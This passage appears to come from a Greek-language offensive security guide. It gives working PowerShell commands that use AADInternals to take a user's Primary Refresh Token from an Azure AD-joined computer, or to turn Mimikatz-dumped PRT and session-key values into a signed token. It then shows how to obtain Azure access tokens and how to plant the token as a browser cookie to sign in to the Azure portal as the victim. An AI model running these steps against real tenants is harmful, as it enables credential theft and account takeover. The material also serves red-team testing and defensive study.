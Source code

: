 ### Επίθεση - Χρησιμοποιώντας το AADInternals και ένα διαρρεύσαν PRT

`Get-AADIntUserPRTToken` **λαμβάνει το PRT του χρήστη** από τον υπολογιστή που είναι εγγεγραμμένος στο Azure AD ή στον υβριδικά εγγεγραμμένο στον υπολογιστή. Χρησιμοποιεί το `BrowserCore.exe` για να λάβει το PRT token.
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
Ή αν έχετε τις τιμές από το Mimikatz μπορείτε επίσης να χρησιμοποιήσετε το AADInternals για τη δημιουργία ενός τοκέν:
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
Πηγαίνετε στο [https://login.microsoftonline.com](https://login.microsoftonline.com), διαγράψτε όλα τα cookies για το login.microsoftonline.com και εισάγετε ένα νέο cookie.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
Στη συνέχεια, πηγαίνετε στο [https://portal.azure.com](https://portal.azure.com)
